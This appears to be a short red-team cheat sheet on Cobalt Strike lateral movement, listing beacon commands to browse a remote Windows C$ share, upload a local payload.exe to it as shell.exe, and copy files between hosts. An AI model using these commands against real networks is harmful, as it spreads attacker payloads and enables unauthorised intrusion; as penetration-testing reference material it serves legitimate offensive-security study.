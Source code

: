 # Cobalt Strike

Search Tag(s): #post-exploitation #lateral-movement #cobalt-strike #windows

## 01 - List Files and Directories

```
beacon> ls \\<IP>\C$
```

## 02 - Upload Files

```
beacon> upload /path/to/local/payload.exe (\\<IP>\C$\shell.exe)
```

If that didn't work change directory and then upload it

```
beacon> cd \\<IP>\C$

beacon> upload /path/to/local/payload.exe
```

## 03 - Copy Files Remotely

```
beacon> cp [<drive_letter>:\]path\to\remote\file.txt \\<IP>\C$\copied_file.txt
```